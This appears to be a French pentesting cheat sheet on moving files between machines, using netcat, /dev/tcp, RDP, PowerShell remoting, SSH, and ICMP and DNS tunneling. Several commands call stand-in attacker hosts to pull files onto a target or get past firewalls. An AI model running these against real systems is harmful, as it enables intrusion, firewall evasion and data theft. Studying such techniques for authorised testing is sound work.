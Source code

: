 # Techniques Spécialisées pour les Transferts

## Netcat et Alternatives

Ces outils permettent des transferts directs entre machines via des connexions TCP/UDP.

### Netcat Standard

```bash
# Réception (machine cible)
nc -l -p 8000 > file.bin

# Envoi (machine source)
nc target.com 8000 < file.bin

# Option pour fermer la connexion après le transfert (-q)
nc -q 0 target.com 8000 < file.bin
```

### Ncat (version améliorée)

```bash
# Réception - ferme après réception complète
ncat -l -p 8000 --recv-only > file.bin

# Envoi - ferme après envoi complet
ncat target.com 8000 --send-only < file.bin
```

### Contournement de Firewall (Connexions Inversées)

Utile quand le pare-feu bloque les connexions entrantes.

```bash
# Sur la machine attaquante (écoute sur port commun)
sudo nc -l -p 443 -q 0 < file.bin

# Sur la machine cible (initie la connexion)
nc attacker.com 443 > file.bin
```

### Utilisation de /dev/tcp sur Linux

```bash
# Réception via socket Bash
cat < /dev/tcp/attacker.com/443 > file.bin

# Envoi via socket Bash
cat file.bin > /dev/tcp/target.com/8000
```

## RDP et Sessions Distantes

### Transfert via Presse-papiers RDP

Utile pour les petits fichiers texte ou pour les environnements très restreints.

```
1. Copier le fichier sur la machine locale
2. Se connecter via RDP
3. Coller le contenu dans un fichier texte
```

### Montage de Ressources dans RDP

```bash
# Avec rdesktop
rdesktop target.com -u user -p password -r disk:local=/path/to/share

# Avec xfreerdp
xfreerdp /v:target.com /u:user /p:password /drive:share,/path/to/share

# Accès sur la cible Windows
\\tsclient\share\
```

## PowerShell Remoting

Pour les environnements Windows avec WinRM activé.

```powershell
# Créer une session
$session = New-PSSession -ComputerName target.com -Credential (Get-Credential)

# Copier un fichier vers la cible
Copy-Item -Path C:\local\file.bin -ToSession $session -Destination C:\remote\path\

# Copier un fichier depuis la cible
Copy-Item -Path C:\remote\file.bin -FromSession $session -Destination C:\local\path\
```

## ICMP Tunneling

Pour les environnements extrêmement restreints où seul ICMP est autorisé.

```bash
# Sur la machine attaquante (nécessite privilèges root)
sudo ptunnel -x password

# Sur la machine cible
ptunnel -p attacker.com -lp 8000 -da internal.server -dp 80 -x password

# Utilisation du tunnel (ex: avec curl)
curl http://localhost:8000/file.bin -o file.bin
```

## DNS Tunneling

Pour contourner les pare-feu qui autorisent uniquement le trafic DNS.

```bash
# Sur le serveur autoritaire (attaquant)
sudo iodined -f -c -P password 10.0.0.1 tunnel.attacker.com

# Sur la machine cible
iodine -P password tunnel.attacker.com

# Transfert via le tunnel créé
# La machine cible a maintenant une interface tun0 avec une IP dans le réseau 10.0.0.0/24
```

## Transferts via SSH

Pour les environnements Unix avec SSH.

```bash
# SCP (Secure Copy)
scp file.bin user@target.com:/remote/path/

# SFTP (interactive)
sftp user@target.com
> put file.bin
> get remote_file.bin

# Tunneling SSH pour contourner les restrictions
ssh -L 8080:restricted.server:80 user@pivot.server
# Accès au serveur restreint via localhost:8080
```

## Points Importants

- Netcat est souvent considéré comme un outil malveillant et peut être bloqué
- Les connexions inversées sont utiles quand les connexions entrantes sont bloquées
- RDP offre des méthodes simples pour les transferts rapides
- Les techniques de tunneling sont utiles dans les environnements très restreints
- Préférer les méthodes chiffrées (SSH) quand la confidentialité est importante